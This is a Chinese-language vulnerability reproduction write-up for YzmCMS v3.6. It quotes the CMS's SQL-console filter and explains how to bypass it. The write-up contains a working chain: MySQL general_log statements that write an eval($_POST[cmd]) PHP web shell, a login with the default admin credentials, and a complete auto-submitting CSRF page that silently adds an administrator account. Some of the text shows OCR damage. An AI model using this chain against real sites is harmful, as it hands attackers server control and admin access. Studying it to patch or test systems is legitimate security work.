 ```yaml
---
title: "YzmCMS v3.6 csrf"
id: zhfly3302
---
```


# YzmCMS v3.6 csrf

## 一、漏洞简介

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

1、文件位置: /application/admin/controller/sql.class.php第10-42行中：

```
public function init() {  
    if(isset($_POST['sqlstr'])){  
        if(!C('sql_execute')) showmsg('根据系统配置，不允许在线执行SQL命令！', 'stop');  
        $sqlstr = MAGIC_QUOTES_GPC ? stripslashes($_POST['sqlstr']) : $_POST['sqlstr'];  
        $sqlstr = rtrim(trim($sqlstr), ';');  
        $sqls = $_POST['action']=='many' ? explode(';', $sqlstr) : array(0 => $sqlstr);  

        $admin = D('admin');  
        foreach($sqls as $sql){  
10\.             if(stristr($sql, 'outfile')){  
11\.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “outfile”！</span>';  
12\.                 break;  
13\.             }  
14\.             if(stristr($sql, '.php')){  
15\.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “.php” ！</span>';  
16\.                 break;  
17\.             }  
18\.             if(preg_match("/^drop(.*)database/i", $sql)){  
19\.                 $str = '<span class="c-red">ERROR : 不允许删除数据库！</span>';  
20\.                 break;  
21\.             }  
22\.             $result = $admin->query($sql);   
23\.             if($result){  
24\.                 $str = '<span style="color:green">OK : 执行成功！</span>';  
25\.                 if(is_object($result) || is_resource($result)){  
26\.                     $arr = $admin->fetch_all($result);  
27\.                 }                     
28\.             }else{  
29\.                 $str = '<span class="c-red">ERROR : 执行失败！</span>';  
30\.                 break;  
31\.             }                 
32\.         }  
33\.     } 
```

这段函数中对提交的sql参数进行还原处理，然后进行非法字符检测，检测字符是否存在”oufile”、”.php”,匹配是否有删除数据的操作等。

2、如何绕过这种限制？

首页，outfile被禁止，第一时间想到的就是SQL语句利用日志写入文件，但是写入脚本文件”.php”会被检测到非法字符；然后，尝试MySQL中concat函数来连接字符串，拆分’.php’关键词，如 CONCAT("test.","php");最后构造出可以写入文件，绕过非法字符检测的的SQL语句，从而触发代码执行漏洞，控制服务器。

Payload：

```
show variables like '%general%';   #查看配置
set global general_log = on;        #开启general log模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入shell 
```

### 漏洞复现

#### 如何获取后台管理员权限

有两种思路：

思路A：通过默认信息，弱口令登录

默认后台路径：http://www.0-sec.org/admin/index/login.html

管理员默认账号密码均为：yzmcms

思路B：通过CSRF漏洞，诱导管理员访问，自动在后台添加管理员账号。

CSRF漏洞利用代码如下：

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">  

<html>  
<head>  
<title>OWASP CRSFTester Demonstration</title>  
</head>  
<body οnlοad="javascript:fireForms()">  
<script language="JavaScript">  
var pauses = new Array( "68" );  

 function pausecomp(millis)  

{  

    var date = new Date();  

    var curDate = null;  

    do { curDate = new Date(); }  

    while(curDate-date < millis);  

}  

function fireForms()  

{  

    var count = 1;  

    var i=0;  

    for(i=0; i<count; i++)  

    {  

        document.forms[i].submit();  

        pausecomp(pauses[i]);  

    }  

}  

</script>  

<H2>OWASP CRSFTester Demonstration</H2>  

<form method=“POST” name=“form0” action=“[http://127.0.0.1:80/admin/admin_manage/add.html](http://127.0.0.1:80/admin/admin_manage/add.html)”>  

<input type=“hidden” name=“adminname” value=“admin”/>  

<input type=“hidden” name=“password” value=“abc123!”/>  

<input type=“hidden” name=“password2” value=“abc123!”/>  

<input type=“hidden” name=“email” value=""/>  

<input type=“hidden” name=“realname” value=""/>  

<input type=“hidden” name=“roleid” value=“1”/>  

<input type=“hidden” name=“dosubmit” value=“1”/>  

</form>  

</body> `</html>` 
```